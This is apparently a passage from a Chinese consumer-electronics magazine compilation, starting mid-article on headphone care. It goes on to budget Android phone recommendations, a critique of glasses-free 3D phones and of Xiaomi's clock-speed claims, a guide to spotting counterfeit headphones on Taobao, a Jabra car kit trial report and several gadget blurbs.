耳机的导线也是耳机保养中非常重要的一个部分，因为不管耳机的制作技术多么的先进，但是耳机的导线始终也是金属制成的。既然是金属材料就有其自身的弱点，那就是易断裂。针对金属导线的这一弱点，虽说是已经做出了很大的努力，但是依然没有彻底克服掉。

- 4. 导线外部的保养

在使用中如果导线的外部受到损伤，将会直接影响到导线的使用寿命。耳机导线外部的材料有很多种，颜色也有很多种，但是大多导线的外部材料都是橡胶。在耳机的日常使用中，很多朋友会发现这样一个问题，那就是使用的时间长了导线就会自然变硬，这样就很容易折断，也是件很伤脑筋的事。

怎样能够解决这一问题呢？这就需要我们平时对耳机的细心呵护。在耳机的使用或是保存中尽量要避免和油性或是酸性物质的接触，一旦接触就要立即用干毛巾擦干。另外，汗水也是耳机导线外部的一大杀手，汗水的碱性比较大，碱性同样会对橡胶造成严重的损害，所以在接触汗水后也要立即擦干。在耳机的使用过程中，还要尽量避免导线外部与利器或是坚硬的东西接触。

- 5. 耳机振膜的保养

耳机振膜在耳机的构成中可以说是相当重要了，它是耳机的心脏部位，它的保养相当关键，只有耳机的振膜没有受到损害，耳机才能够正常的工作。

新耳机的振膜由于没有使用过所以弹性比较差，刚性比较强，所以在使用新耳机的时候，要慢慢调整音量，不宜过大，因为音量过大会使得耳机振膜的震动幅度过大，造成耳机损坏，也不要过快或大幅度地变换音量，这都会对耳机振膜产生不利的影响。

所以，在使用新的耳机时，建议先用正常的音量听一到两个月，在这过程中尽量避免听比较劲爆的音乐，等耳机过了磨合期，便可以更好地使用了，这是新耳机使用的一个很稳妥的方法。而且，要避免耳机与潮湿的环境接触，否则将会使得振膜变形，影响正常使用。

- 6. 专用耳机的保养

耳机通常有很多种类，有许多耳机是不可以通用的，这一点在耳机的使用过程中是值得注意的。

## 耳机使用及保养存在的误区

也许，在日常的使用中，很多人也很想好好地保养一下自己心爱的耳机，但是由于经验不足或是这方面的了解不多，所以通常在耳机的使用和保养中往往容易陷入误区，这样不但没有起到保护耳机的效果，而且会在很大程度上对耳机造成致命的伤害。下面，我就为大家来披露一下存在的几个误区，希望对大家在今后的耳机保养中有所帮助。

- 误区之一：煲耳机时使用大音量

有人认为，新的耳机需要使用大音量煲，这样可以使耳机又快又好地进入正常的工作状态，而且还节省了时间。

这样的做法其实是犯了耳机使用的一个大忌，因为通常情况下，新的耳机的振膜会刚性太强，这样大音量的煲就会使振动的频率超出新振膜的承受能力，造成振膜损坏。在煲的时候应该使用适中的音量，使用一段时间就可以随意地调试了。

- 误区之二：听耳机的时候音量过大

长时间的大音量听音乐会对人的听力产生非常不利的影响，渐渐地会造成听力的严重下降，给耳朵带来长久的损害，长时间的大音量也会使人的精神过度亢奋，会造成身心疲劳，精神疲惫。

而且大音量对耳机振膜的影响也非常大，长时间的大音量使用，会造成音效失真，甚至造成振膜破损。所以，在听音乐的时候要选择适中的音量，既不能太小，影响音乐的美观，也不能太大，伤害到自己的耳朵，适中的音量也会延长耳机的使用寿命，也是最好的保养方法之一。

总之：想让您的心爱的耳机的使用寿命更长，您就要掌握科学的使用方法和保养方法，还要走出使用和保养的误区。耳机也是件很娇贵的物品，需要我们好好地呵护它，相信在您的精心呵护下，您的耳机一定会寿命更长久，给您带来更多的美的享受！！！

## 智能门槛也不高 千元内也Android手机推荐

智能手机的火爆让手机平台出现了激烈的竞争，如今再也不是当年塞班独大的年代了，Android手机系统的开源让其异军突起，在很多人的印象里，智能手机的价格怎么也得2000元左右，让许多预算不充裕的用户（尤其是学生）打消了购买欲望，今天小编特推荐几款千元级Android手机，仅供参考。

在手机上安装智能应用程序，体验触屏滑动快感，这几乎是所有手机用户的需求。Android作为当前最流行的手机操作系统，经历几年的成长已经从一个新同学超越了称霸十余年的塞班，而Android智能手机大部分价格还是都在千元以上的，2000~3000区间更是居多，这使很多用户望而却步。其实，Android手机并非高不可攀，智能手机人人都可以拥有。

今天介绍的千元Android手机，不仅能提供正常通话、发短信、听音乐和拍照，还能下载多方软件应用实现智能手机特点。具有超高性价比，非常适合学生和打工族使用。可下载多款游戏，为学生坐车解闷或开发智力所用。相对打工族，下载观看电影应该是比较常用的功能。在相近价格范围内，大屏幕、触摸体验是一般用户最常用的，而习惯键盘输入的用户也可以找到全键盘手机，每款都有自己的特点，适用不同人群，希望对大家能有帮助。

## 三星i5500

三星i5500采用了2.8英寸的全触控液晶屏，分辨率为240×320，显示效果还算可以。由于i5500配备了三星自主的TouchWiz 3.0操作界面，使得i5500操作更加便利。机身后内置一颗300万像素摄像头，完全能够满足一般用户的需要。在配置方面，三星i5500搭载了Andriod2.1智能操作系统，600MHz主频的处理器保证了系统的稳定运行，平时的上网、聊天等操作不成问题。

编辑点评：三星i5500是一款转为低端入门级用户设计的Android系统手机，它的配置比较中规中矩，得益于三星自身的系统优化，运行速度比较流畅，是一款物美又价廉的手机，近期这款三星i5500售价已跌破千元，对于三星手机来说是很少发生的事情，有兴趣的朋友不妨关注下。

## 华为U8110

华为U8110采用经典的直板触控式设计，2.8英寸TFT电阻式屏幕，分辨率为QVGA（240×320）。虽然U8110采用了电阻屏，在操作上也没有电容屏操作流畅，但精准性和手写文字录入，也是具有一定的优势。华为U8110搭载了Android2.1版系统，二次开发之后的系统，图标样式都有所改变，包括Widget控件等，同时华为对Android原生态系统界面也进行了改进，在待机桌面共有多达15页的分屏显示效果，满足用户大量的桌面快捷方式摆放，十分人性化。

编辑点评：华为U8110采用了独特的Canvas无限桌面，深度融合了开心网，并直接提供了新浪微博等SNS平台的入口，加上对多种常见音视频格式的支持和320万像素拍照能力，整体性价比还是比较高的。值得一提的是华为U8110是一款WCDMA模式的3G手机，它为用户提供了比较完善的互联网应用服务。除了屏幕不是电容屏以外，华为U8110还是十分优秀的，当然仅900元的售价也很说明问题了，这款手机综合性价比很高，值得大家考虑。

## HTC Wildfire (G8)

要大力推荐的是HTC Wildfire (G8)，此款手机作为HTC Android系统家族的第8位成员，是在HTC连着推出Legend和Desire两款高端机型后，推出的一款定位中低端的入门级智能触屏手机，自上市以来，凭借其优越的性价比和时尚娱乐元素，备受年轻人的喜欢和青睐。

编辑点评：HTC Wildfire作为HTC最实用的入门级Android机型，整体性能表现相当出色，采用了在中低端产品中并不多见的最新光学触控板，内置500万像素的摄像头和LED补光灯，使得拍摄效果更清晰完美，其主流的配置和超高的性价比更彰显了平民亲和力，对年轻学生群体来说是一个不错的选择。

## 摩托罗拉 ME511

作为一款女性向的全键盘手机，摩托罗拉ME511做得十分精巧，该机使用了德州仪器OMAP3410的处理器，频率达720MHz，512MB ROM+512MB RAM，配备了安卓2.1系统，性能不错。该机内置GPS导航，支持3G网络，有WIFI功能，可使用收音机，整体表现很全面。

编辑点评：整体上来说，ME511适合喜欢小巧、新奇手机外型的时尚人士，旋转之后的ME511存放起来很是方便，现在该机普通版只需1300元，而T-mobile版只要999元（因为有网络锁，但是商家一般会免费为顾客解锁），已经非常实惠了，向女孩子推荐。

## 新潮就是潮流吗 冷眼看裸眼3D手机

随着HTC EVO 3D和LG双核Optimus 3D这两款旗舰级手机的相继登场，裸眼3D手机被炒得很热。即便我们购买，关注手机硬件的朋友大多有上一试的冲动。除去广告宣传的卖点，我们该如何看待手机上的裸眼3D呢？

## 由二维转成3D画面真的更好了吗

我们拿到实机具体观察，市售裸眼3D手机都提供了2D/3D两种切换模式，不过比较遗憾的是从2D切换到3D模式时，手机屏幕亮度以及分辨率都会一定程度下降。事实证明，手机由2D进化到3D画面反而粗糙了，这一点恰恰是厂商宣传时绕过的重点。由于同样画面要做成3D效果必须经过光栅的偏振进行分隔（下文会具体解释），势必造成像素点距增大进而降低分辨率。君不见拥有1080P拍摄能力的手机，若要拍摄3D视频，最多能实现720P的拍摄，分辨率降低幅度可见一斑。所以笔者在此提醒广大读者，不要被厂商的心理暗示所误导，现阶段裸眼3D的实现是要牺牲画面的精细程度的。

## 要想得到3D效果 坐姿很重要

裸眼3D技术叫做“视差屏障技术”或“光屏障技术”，该3D技术的原理和偏振式3D较为类似。简单说视差屏障3D技术的实现方法是使用一个开关液晶屏，利用液晶层的偏振来让两只眼睛所看到的像素加以区分。（如图所示）这些孔隙只有几十微米，所以要想得到最良好的3D效果，只能在一个相对狭小的角度观看，否则3D效果就要大打折扣。试问，谁会有如此的好体力去保持一个良好坐姿和欣赏角度观看上百分钟的电影呢？便携电子产品就应该用的随心所欲，而不是我刻意要适应你的规则。如果没有这份心理准备，3D机能也许更像个折磨人的刑具。



## 对用健康成本换来的3D说“不”

近日，美国的一家网络杂志《视觉周刊》发表了一篇报告指出，长时间观看手提电子装置播放的立体3D短片，或会引致视觉不适，眼部疲劳甚至引发头痛。问题成因在于双眼的协调能力有限。因为双眼聚焦屏幕时，自我调节的能力远不如影像切换的速度快。研究人员表示，双眼具有自我调节响应距离的能力，但是这种能力并不是非常快速的转换，在医学上，双眼的这种能力叫做“视觉辐辏调节”，但是由于现阶段的裸眼3D手机采用的3D技术导致影像出现在屏幕前，而不是屏幕后，这会让人感到非常的不适应，如果长期观看，可能让双眼受到损害，甚至引发头痛。反过来看看3D手机说明书上都有类似明确的标注：不要让6岁以下儿童使用3D机能或建议观看3D视频30分钟要休息一段时间的警示语，也从侧面说明了3D对视力的负面影响。我们对待这种以付出身体健康为代价而得到的3D效果更应戒之，慎之。

## 立体应用屈指可数使3D成为“梁山军师”

现阶段裸眼3D手机刚刚被市场化，各大游戏厂商也在审视着这个新兴事物到底能让多少用户来买单。如果用户基数达不到软件厂商的底线要求，休想让这些厂商将大把的人力物力和大量的开发时间投放到3D软件的开发上。这也造成了现阶段3D应用软件和3D游戏乏善可陈，甚至没有几个大牌厂商公开宣传以后要将重点放在3D手机软件的开发上。反观硬件市场，举集团之力推进3D计划的SONY对掌上3D并不看好，无论是索爱最新手机还是即将发卖的掌上游戏机PSV都没有采用裸眼3D功能，任天堂大力鼓吹的3DS发卖一年就破天荒的降价10000日元，用事实让全球硬件商看到了裸眼3D的噱头不能久之。若是用户买来3D手机而没有真正用武之地，那么3D机能纯粹就是无用。总结：不得不承认裸眼3D现在还没有办法摆脱噱头之嫌，现在裸眼3D最大的弊病依然是视角太窄，画面太粗糙，长期观看对肉眼健康有一定影响，这些技术问题仍然需要厂商一一去解决，在我们用户看来，尽管3D被宣传的神乎其神，还需冷静对待。

## 1GHz对决HTC Incredible S VS索尼爱立信LT15i

目前在2000至3000的价位区间里有不少机型可供选择，而其中同带高1GHz的HTC Incredible S和索尼爱立信LT15i这两款机型的关注度较高，同时无论是手机的配置还是品牌影响力都非常出色，下面小编就带领大家对这两款机型做一下详细的对比，也好让纠结于两者之间的朋友做一下参考。

HTC Incredible S与索尼爱立信LT15i HTC Incredible S手机延续了Incredible的外观设计风格，稳重大气颇具商务色彩，HTC Incredible S采用4.0英寸WVGA级别的电容屏幕，可提供较好的视觉享受，同时也为手指留下了更加广阔的操作空间。从机身侧面看来，HTC Incredible S厚度保持在11.7毫米，整体显得较为纤薄，机身四角以及边缘运用了大弧度设计，去除了棱角，不仅更加贴合手掌，而且也更加美观。索尼爱立信LT15i继承了自己一贯的旗舰特色，正面机身给人以霸气之感。手机采用主流的大屏触控设计，使用了4.2英寸电容式触摸屏幕，分辨率为480×854，效果震撼。而厚度方面LT15i一举打破了苹果iPhone 4所保持的厚度记录，8.7毫米让业界为之震撼。而银色金属材质的包裹也让手机看上去更高贵。

## 基本参数概览

| 项目         | HTC Incredible S               | 索尼爱立信LT15i                 |
|--------------|---------------------------------|---------------------------------|
| 处理器       | 高通Snapdragon MSM8255          | 高通Snapdragon MSM8255          |
| 显示芯片     | 高通Adreno 205                  | 高通Adreno 205                  |
| 运行内存     | 1124MB ROM+768MB RAM            | 1024MB ROM+512MB RAM            |
| 屏幕规格     | 4.0英寸 480×800像素             | 4.2英寸 480×854像素             |
| 屏幕材质     | SLCD                            | Reality Display显示屏           |
| 摄像头       | 800万像素                       | 810万像素                       |
| 操作系统     | Android 2.2                     | Android 2.3                     |
| 机身三围     | 120×64×11.7毫米                 | 125×63×10.9毫米                 |
| 机身重量     | 135.5克                         | 117克                           |
| 最新售价     | 2900元                          | 2750元                          |

## 整体性能 HTC Incredible S 略微领先

由于两款手机均采用高通Snapdragon MSM8255的处理器和高通Adreno 205显示芯片，所以性能应该一致。HTC Incredible S的可用物理内存比LT15i多出256MB，这给手机运行大型游戏给予更充足的运算存储空间。小编通过专业跑分测试软件来对这两款手机进行了整体测试，HTC Incredible S两次平均分维持在1650，足以看出手机综合性能的强劲之处。而索尼爱立信LT15i的成绩是1532，较前者稍差一点点。PS、GBA模拟器或者风靡全球的《愤怒的小鸟》、《水果忍者》、《植物大战僵尸》都在两款机型上有着出色的体验效果。虽然两者在跑分测试中分数具有一些差异，但在游戏体验上两者还是相差无几的。

## 屏幕显示 索爱LT15i占上风

索尼爱立信LT15i采用了以SONY自家平板电视上的显示技术为蓝本，在此款手机上使用名为Mobile BRAVIA ENGINE的手机图像引擎技术，结合4.2英寸Reality Display显示屏，为用户带来清晰、靓丽的视觉呈现。而相比HTC Incredible S在屏幕上的则是一贯色彩感受，虽不出众但也还算艳丽，注意，这里并不是说Incredible S色彩不好，但SLCD在Reality Display显示屏前确实显得有些黯淡。

## 拍照能力 LT15i略胜一筹

HTC Incredible S配备了800万像素CMOS镜头，在弱光环境下可通过背后搭配的双LED补光灯来提供辅助，最大支持3264×2448像素照片拍摄，整体效果非常优秀。手机内置了趣味的变形效果和突出主体的景深效果也十分有趣。索尼爱立信LT15i手机摄像头配备的是810万Exmor R传感器，在低光照条件下，手机依然可以实现高质量、高亮度的图像捕捉和HD高清视频摄录功能。索尼爱立信LT15i手机将摄像头配置在背部的顶端，旁边还配有一枚LED补光灯作为辅助作用。虽然两者都支持3264×2448像素照片拍摄，但在拍照环节索尼爱立信LT15i明显略胜一筹，拍出的照片在色彩饱和度、图像对比度、画面真实度等方面都相对出色。

总结：通过对性能、屏幕、拍照等方面的对比之后，相信朋友们对于这两款手机都有了一定的了解。HTC Incredible S与索尼爱立信LT15i虽然算不上目前市场中最为出色的Android智能手机，但在单核处理器机型中的表现还是没有太多可以匹敌的。两款手机实用、美观，游戏体验都非常不错，同时具有丰富的拍摄功能。

## 买的没有卖的精 网购耳机真假难辨

同事小雪最近在网上买了一个耳机，据她自己说价格实惠，音质不错，特意拿到我这里来显摆一下。我晃眼一看，是舒尔E2C，一问价格才240元，草草试听了一下也没多想。遂，第二天将自己的原装舒尔E2C拿来与之对比，哎，真假立判……小雪那个哭啊：已经付款了……

我们网购所图就是便宜快捷，但有些不法商贩利用人们的侥幸心理出售一些所谓散装货实为假货谋取暴利。如果我们因为这一小撮无良商人而放弃网购无异于因噎废食。那么我们该怎样鉴别购买物品的真假呢？耳机假货有别于其他产品，就算是假耳机一般也都能正常使用，所差者无非是音质的差异，而音质好坏无法通过硬性数值来界定，这就给不法商贩带来了可乘之机。以笔者经验，在淘宝搜索耳机两个字，以价格从低到高排序前几页基本都没有真货，更有人说淘宝假货比真货多，要这么说，也冤枉，也不冤枉。

## 保障图标下暗藏杀机

淘宝网有项服务叫7天无条件退货，出名的假货商都有。设想下如果我们买的是一个一次性封装的真货被无条件退款，这种情况十中有一真货卖家就亏到姥姥家去了。要想做一个优秀的假货商，七天无条件退换货，30天保修，如实描述这些淘宝特殊标志都得有（交钱了你就是如实描述了，什么逻辑？）。而淘宝店内这些东西越多，就意味着卖家交钱淘宝网越多，尤其要上首页或者对话框广告那就是贵得吓人（一天2万块都是正常的）。这就让笔者想起上学时一个同学的遭遇。

大头：本来就是想买个外型好点的，最好能同时连两个设备的蓝牙耳机，结果搜来搜去就bh503比较入眼，可惜京东、新蛋都没货，于是在淘宝商场搜了一下，发现有家卖的，问了下，国行500多没货，港行300多，看着页面告诉你哪个正货哪个仿货，又是拍胸脯的保证，又是一堆7天包退，正品保证的淘宝验证，于是脑子一热，贪了小便宜，拿回来一看，完全就是个仿制品。这时再回去找商家，无赖的嘴脸就露出来了，铁嘴钢牙咬定就是港行，明知道维修点不会给仿冒配件出证明，却偏偏要证明才肯承认。眼看这官司是打起来没个头，淘宝官方也是和稀泥，谁让我就贪了小便宜呢。希望大家也长个心眼，这淘宝商城也不靠谱。淘宝现在就是在纵容这种无良卖家，争取半天，充其量不过是买家退货，而卖家根本没有得到惩罚！

## 正品、工包、海关查没等信誓旦旦 只为转移注意力

耳机这东西有行货，行货都有国内正规代理，有防伪标签并且很多品牌有防伪电话，但是在假货商们长期的熏陶下，大部分人只问是不是“正品”，却对于“行货”二字没多少概念，仿佛只觉得手机才有水货行货之分。其实手机那种东西要仿得惟妙惟肖就算成本花了很多都难以做到，而耳机的外形仿制对于我国发达的造假业来说实在是小儿科，声音好坏全凭主观听感（很多地方没有真货试听），所以就成为许多黑心人发家致富、骗财做大的必选产品。先用“正品”二字出来混淆视听引开你对行货的注意力，再用相对低廉的价格、漫天的吹嘘以及五花八门的承诺勾住你，行骗就如此轻而易举了。

## 小提示：

工包，其实只是一个缩写，是人们对于“采用工业包装”的电子配件产品的简称而已；而所谓的“工业包装”产品是相对于正规的行货产品的叫法，采用“工业包装”的产品通常不标明产品的品牌和型号，虽然是全新正品但一般不能提供完整的配件，也不能够提供像行货产品那样的售后服务。随着“工业包装”产品越来越多的出现在市场上，人们对它的认识也逐渐深入，而且也习惯称呼它的简称“工包”。工包的叫法就来源于此。

## 假货耳机惯用词汇逐条数

## 专柜鉴定：

最常见的招数就是专柜鉴定，让你买了之后拿去专柜，那边能证明是真的，而且卖家往往信誓旦旦告诉你自己去某某专柜鉴定过了，其实这个事情很容易想明白，事涉真假，只有该品牌总公司有这个资格，甚至森海塞尔的国内代理锦艺都是没有资格做这种鉴定的，你还能拿去德国？既然没资格做鉴定，那么更不可能开具鉴定的书面文件，你又拿什么去证明真假，那么你证明不了，你说退货也不行，这时你如果发现上当，已然晚了。

## 假一罚n：

这个也是假货必用字眼了，另外还有一句叫做“假货死全家”，决心之大让人瞠目。有兄台说过，这个N数量越大越不可信，我认为基本成立。如果你身边有个人老是发誓，你多半认为他不可信，更不用说那些每天毒誓五百句的小贩，轻易发誓者就是把誓言当狗屁，去想想自己发生的事情都明白——你见过大商场喊假一罚万么，不都是那些摆摊卖假阿迪的才说这个？

## 真假对比：

喊喊捉贼这一手千百年来屡用不爽，假货耳机店则必用这招，什么高清大图啊，溯源细说啊，振膜特写啊，能给他说的全给他说上，然后顾客买回去之后就会拿放大镜照着看，好奇的还掰开单元自己看，然后跑过去照葫芦画瓢告诉周围的人自己这个为啥是真货……这招也很简单，叫做注意力转移，光想着对比去了，忽略了这对比是别人先导演好的（就像电视里整夜播放的祛斑美容广告），你只是拿一个假货比了另一个假货而已。耳机这种小行业还远远不够发达，很多省会城市都没有正品提供试听，许多人对比了几年却没买到过一条真货。

## 煲机：

煲机是新人最经常问的问题，个人觉得煲机就像汽车磨合期一样，不复杂不高深，只要一开始不要开大音量摧残耳机，过阵子它会自然舒展，小音量收音机白噪音也就行了。部分型号煲机之后效果会较为明显但是绝对不会有所谓的脱胎换骨。磨合多好的捷达，它也还是捷达。但是在很多假货商那里，煲机就成了比修仙还要神秘伟大的活儿，原因不外乎是：听着不好是你没煲好，拿这点来堵顾客的嘴并且显示你不如他懂，有些经典的还说“你觉得不好是因为你还不算发烧友还不会听还要练”一脸皮比凤姐还厚，等过了半个月你反应过来，想退货都不好意思退了（按淘宝规矩你也没法退了）。

## 最后总结网购购买耳机经验：

-   1. 不要看淘宝首页推荐，那些是卖家付费的，越推说明它利润越高，不要天真的以为推荐的是便宜的好货，其实不乏地雷在等着你。
-   2. 不要看到某件商品卖家有很多交易记录就跟风购买，有的卖家喜欢先用马甲买一些东西，搞点交易记录勾引买家，鉴别方法可以看这些买家的销售记录，若是匿名购买，等级很高又故意不让看很有可能是卖家雇来刷成交记录的。
-   3. 不要以为信誉高的东西一定没问题，这些人之前卖的是什么你并不知道，学会判断是否是正品店，你注意看他的店铺，是否能找到我以上提到的全假型号，还有一些一看就是假的东西，比如舒尔都敢卖200，看都不要看。
-   4. 淘宝搜索时的重点推广里的宝贝，这些都是付费项目，尽量不要优先浏览，毕竟羊毛出在羊身上。
-   5. 不要以为淘宝商城的人全都可信，没有了差评的威胁，有些不法商贩更加有恃无恐，一般喜欢真假货混搭着卖，当然正规代理除外。

## 越养越肥 开薪小猪存钱罐

这是一只能让人由衷微笑的小猪存钱罐一开薪小猪，当硬币塞满了原有的空间，我们只要增加一块“肉片”，便可获得更多存储硬币的空间，就好像小猪被我们越养越肥一样。开薪小猪是新时代的猪公扑满，当你把开薪小猪存满时，即可增加单片肉片，成就你更大的财富！每片肉片都是独立存款空间，因此当你取出开薪小猪的存款时，不必杀了整只小猪，只需要取出你需要使用的份量，其余的，就让它乖乖的待在五花肉里吧！


## HandStand 2 单手倒立 iPad2保护套

想拿着iPad 2单手倒立外加托马斯全旋？这项装X到极的技能并不需要多么强壮的肌肉，只需要一套单手倒立iPad2保护套HandStand 2，你就能将iPad 2玩出花来。将之套在iPad 2上就能使用，外壳的背面有一个固定带子，非常便于单手穿过握持使用，不论是用手拿着倒立还是平放，再不用担心光滑、圆润的iPad 2会一不小心就掉在地上，变成响亮的悲剧~更棒的是，这个固定环还能“哒哒哒”的旋转，不论你当下是什么体位，也总是能找到一个最舒服的角度停下来，看电影和玩游戏的时候，这个功能简直能让人爽快到飞起~如果倒立够了，还可直接放到桌面上当支架使用。



## 小米们要冷静 惊人数据有水份

雷军投资的小米科技正式发布了旗下第一款手机。这支手机具备了业界几乎最顶级配置的产品，定价却仅为1999元人民币，由此引发的轰动迅速席卷各大网站的评论席，读者纷纷表示这样的价格堪称业界良心。

8月16日，小米在北京正式发布了中国首款双核1.5G智能手机，同时这也是目前世界上主频最高的智能手机。一时间打乱了手机市场长期以来只有“iPhone 5”受到强烈关注的格局，也一举摘掉了国产手机价低性能也不高的帽子，第一天网上预订就有20万的预约量，受关注度可见一斑。



| 型号 | 三角形输出率 | 像素填充率 |
| --- | --- | --- |
| Tegra 2 | 71M/s | 1200M/s |
| SGX540 | 35M/s | 1000M/s |
| Adreno205 | 41M/s | 245M/s |
| Mali-400MP(单核) | 30M/s | 275M/s |
| SGX535 | 28M/s | 400M/s |
| SGX530 | 14M/s | 125M/s |
| Adreno200 | 22M/s | 133M/s |
| Adreno 220 | 88M/s | 532M/s |
| SGX543MP（四核） | 133M/s | 400M/s |
| SONY psp | 33M/s | 564M/s |
| SONY ps2 | 66M/s | 2352M/s |
| 任天堂 Wii | 100M/s | 972M/s |
| Nvidia GF7800（ps3） | 250M/s | 16000M/s |
| ATI R500（Xbox 360） | 500M/s | 24000M/s |

标注：Adreno 220图形芯片还不是Tegra 2的对手

## 质疑对象 1.5GHz 双核处理器

在发布会上，雷军称小米手机的MSM8260处理器的主频高达双核1.5GHz，比主流单核智能手机快200%，比顶级双核智能手机还要快25%，并列出了很多产品与之对比。按照小米给出的数据，小米手机的性能已经击败了市面上所有对手，但事实究竟是不是这样呢？

我们从高通的官网可以查到，小米手机所使用的双核处理器的理论频率只有1.2GHz，但有趣的是当雷军公布小米之后再到网上查询该处理器的主频就变成了1.5GHz。我们细看可以发现高通MSM8260是现在已经在旗舰机型中稍显落后的Cortex A8架构，在这里我想说的是频率决定不了任何事情；Cortex A8 1GHz处理器实际性能相当于Cortex A9 800MHz的处理器。架构、系统优化、CPU的缓存和生产工艺和带宽都是更加影响CPU性能的因素。所以，拿频率的数值对比来宣传超过Tegra2的双核1GHz难免有混淆视听之嫌。雷军在之后的答网友质疑将其解释为用在小米手机上的MSM8260为原始版本的升级版，这种因为有了蛋所以之前一定有鸡的推论型解释显得很苍白，有相当一部分网友认为小米手机的处理器是通过超频而得到的1.5GHz，若真是如此，那么超频带来的系统稳定性下降、温度过高、电池消耗过快等问题就不能不考虑了。

## 网友亲身跑分 结果大跌眼镜

在之前小米手机宣传中公布的系统得分约为6000分（使用超级兔子测定），一位有幸拿到试用样机的网友随即进行了测定，以下引用网友原帖：“我闲逛时看到论坛置顶的团支书的超级兔子跑分图和小狐仙仙在微博的跑分图就一时兴起，也下载安装了超级兔子开始跑分，结果就杯具了。第一遍出来的分数是4702，CPU频率显示972MHz，跟前面两位的6000多分和1.5GHz的CPU差距甚大，我重新跑了几遍，直接变成4300左右分数，CPU还是972MHz的频率。重启手机，跑分依旧是4300左右，最高一次4600分，而CPU频率一直保持在972MHz。我很郁闷啊，这是为何？逐发帖寻助，我按照网友的建议，把手机充满电后搁置了一上午未做任何使用，静待CPU冷却，然后重新进行测试，CPU频率变回正常水平，维持在1512MHz，跑分基本在5800分左右，最高分5943分！”要知道处理器降频是温度过高的自保行为，这一测试结果也一定程度上印证了网友的超频猜测。

## 显示能力 不过不失

要想知道小米手机图形芯片的性能如何，我们采取了比较讨巧的方法。HTC Sensation和小米手机一样都采用了Adreno 220图形芯片。故我们只要测试HTC Sensation的图形芯片性能就能知道小米的大概。

注：Nenamark 2是一款3D测试软件，在目前的手机3D测试软件里，Nenamark 2是为数不多可以拉开新一代硬件之间差距的测试。

大家注意图中的HTC Sensation的测试成绩。HTC Sensation是Pyramid正式上市后的型号，它同样使用了MSM 8260 1.2GHz处理器，成绩对于小米手机来说很有参考价值。图中黑白交界处坐标是运行Nenamark 2程序的平均帧数，HTC Sensation的成绩是28帧左右，依然处于中游水平。这就是MSM 8260处理器集成的Adreno 220图形芯片的效能，小米手机即使频率更高，也很难有太多的提升。

总结：双核处理器、1GB内存、1999的价格，的确很震撼，但是这样的震撼有时候会干扰我们的判断，片面地去关注优点。其实，小米手机硬件上也有很多遗憾之处。比如，小米手机采用了最新的Android系统，支持视频通话，但它却不具备前置摄像头，作为目前高端手机标配的陀螺仪，也一概欠缺。至于多媒体效能、机身材质、工艺和设计，扩展功能、增值服务，甚至于做工，目前来看小米手机的这些指标最多属于“优秀”或“普通”级别，并没有特别出彩的地方。如果我们购买到的产品空有双核的发热，却没惊艳的性能，除了双核以外都很平庸，那么纵然是1999的价格，也未必真值得欢呼雀跃。

## 新手司机勇闯翡翠岛 捷波朗FREEWAY车载蓝牙免提试用报告

蓝牙耳机见得多了，功能更齐全的车载蓝牙免提你用过吗？捷波朗FREEWAY就是这么一款神奇的产品，它能“听懂”使用者嘴里说出的命令，下面就来看一位读者的使用报告。

对车技不精的笔者来讲，车载蓝牙几乎是必要装备，这款功能非常强大的捷波朗FREEWAY车载蓝牙免提简直就是专门为我设计的。这次和朋友约好去河北的翡翠岛玩，来回七百公里，车程超过八小时，这款刚入手的FREEWAY一路上可以说帮了很多的大忙。

刚拿到这款车载蓝牙免提的时候笔者还真有点不知道怎么下手的感觉，面板上的按键也是隐藏式的，只能看到几个英文单词，使用久了才发现原来它主要的操作都是靠语音，所以故意淡化了按键的设计。

黑色的包装盒显得很稳重，侧面有特色功能简介—FM, Wireless Music, Advance Multiuse, Voice Guidance以及对续航能力的说明—14小时通话和40天待机，这两个数字看上去很惊人吧。打开看，感觉是很商务的外形，面板比较大但是比较纤薄，三个扬声器就隐藏在里面；简洁的线条，很容易与内饰融为一体。比较有创意的是它背后的挂钩设计，小白的我纳闷了好一阵才反应过来它的最佳放置位置。

配对时只需简单的语音口令，匹配上后，会请求读取电话本，因为在家已经配对过了，启程之后，一开机它就自动连上了我和朋友的两部手机—三星OMNIA 7和摩托罗拉ME525，不是像普通蓝牙耳机那样只能同时连接一个手机哦！最让我震惊的是它居然可以在车发动时自动开启，而在熄火离开时自动关闭。窃以为这项功能对像我这样健忘的人来说简直是太贴心了，既不用浪费待机时间，也不用在电话响起的时候再手忙脚乱的去开机。

刚出五环，语音提示未知号码来电，瞟一眼，是母亲大人打来的，怎么会未知呢，恍然想起这车载还不支持中文，而我的电话簿里大多数联系人名称都是中文，这就囧了。通过语音命令接通电话（当然只能用英文语音命令），音质十分清晰，这通电话持续了20分钟左右，最高80公里/小时的速度，仍然可以流畅的通话，受噪音影响很小。

到香河时，又播报来电，这次是朋友的电话，蓝牙免提直接读出了电话号码（当然也是英文，要脑子转换成中文），但是并未提示是哪部手机的来电（因为同时有俩手机和它相连），这个时候不看手机是区分不出来的。朋友坐后排，离驾驶座遮阳板上的蓝牙距离稍远，通话质量就稍微打点折扣了，还是前排使用效果比较理想。

当我们行驶到昌黎附近，收到招行95555的提示短信，让我惊讶的是，蓝牙免提也会播报，并且提示是否要阅读短信内容，我回答指令“read it”，可惜蓝牙接收指令后只读出了短信中的几个数字，中文是跳过的。不过还是要赞一下它的语音辨别能力，基本对我们这种充满口语的英语口令也可以准确识别，不足就是声音太小时，有时会接收不到，需要重复一遍，所以最好还是将它放置在主驾驶上方的遮阳板上，方便接收语音指令。

到达翡翠岛后，就像我前面说的那样FREEWAY随着车门关闭自动关机。第二天发动机启动时，又自动开启，并且会语音提示设备连接状况。

回程中，朋友用他的摩托罗拉ME525播放音乐，没用任何设置就自动默认使用蓝牙免提外放。三扬声器立体声技术和虚拟环绕声的优势就体现出来了，感觉音效不输于我的汽车音响，把音量调到最大，车速在100公里/小时以内时，后排也可以非常清晰的欣赏。超过100公里/小时，前排仍然清晰，后排就有些受噪音干扰了。

回程中一共播了4个多小时音乐，通话时间大概是1小时，最后朋友的ME525终于撑不住没电了，FREEWAY仍然没有低电量警报，加上以前的通话约1小时，可见它的续航能力的确名不虚传。

总结：这款车载蓝牙，外形低调，强悍的语音功能和续航能力，以及前卫的自动开关机功能，非常符合它高端蓝牙系统的定位。

## 俄罗斯方块即时贴 BLOCK STICKY NOTES

作为元祖级游戏大作《俄罗斯方块》想必没有人会不知道，英国Suck uk为了唤醒老玩家的热情，最新出品了一款俄罗斯方块即时贴，此贴纸被设计成游戏中形状各异的不同组合，给写满工作清单的即时贴带来了一些娱乐气氛，不过小编妄想一下，将写满代办事项的即时贴拼在一起就会统统会消掉吗？

